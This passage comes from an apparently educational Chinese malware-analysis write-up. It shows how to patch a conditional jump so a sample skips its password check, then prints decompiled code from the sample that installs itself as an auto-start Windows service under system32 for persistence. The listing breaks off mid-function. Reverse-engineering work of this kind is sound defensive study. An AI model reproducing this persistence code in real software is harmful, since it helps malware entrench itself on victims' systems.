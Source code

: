将此处的`JNZ`指令修改为`JMP`指令。

![image-20220118170529650](images/67.png)

修改成功后，可以直接跳到`00402B3F`位置。

![image-20220118171207875](images/68.png)

可以修改指令绕过检查密码的函数，输入`-in abcde`后继续执行，执行到`00402600`位置。

![image-20220118163853094](images/in.png)

```
BOOL __cdecl sub_402600(LPCSTR lpServiceName)
{
  SC_HANDLE hService; // [esp+Ch] [ebp-1408h]
  char v3[1024]; // [esp+10h] [ebp-1404h] BYREF
  CHAR Filename[1024]; // [esp+410h] [ebp-1004h] BYREF
  CHAR DisplayName[1024]; // [esp+810h] [ebp-C04h] BYREF
  CHAR BinaryPathName[1024]; // [esp+C10h] [ebp-804h] BYREF
  SC_HANDLE hSCManager; // [esp+1010h] [ebp-404h]
  CHAR Src[1024]; // [esp+1014h] [ebp-400h] BYREF

  if ( sub_4025B0(v3) )
    return 1;
  strcpy(Src, aSystemrootSyst);                 // %SYSTEMROOT%\system32\
  strcat(Src, v3);
  strcat(Src, aExe);                            // .exe
  hSCManager = OpenSCManagerA(0, 0, 0xF003Fu);
  if ( !hSCManager )
    return 1;
  hService = OpenServiceA(hSCManager, lpServiceName, 0xF01FFu);
  if ( hService )
  {
    if ( !ChangeServiceConfigA(hService, 0xFFFFFFFF, 2u, 0xFFFFFFFF, BinaryPathName, 0, 0, 0, 0, 0, 0) )
    {
      CloseServiceHandle(hService);
      CloseServiceHandle(hSCManager);
      return 1;
    }
  }
  else
  {
    strcpy(DisplayName, lpServiceName);
    strcat(DisplayName, aManagerService);       // Manager Service
    hService = CreateServiceA(hSCManager, lpServiceName, DisplayName, 0xF01FFu, 0x20u, 2u, 1u, Src, 0, 0, 0, 0, 0);
    if ( !hService )
    {
      CloseServiceHandle(hSCManager);
```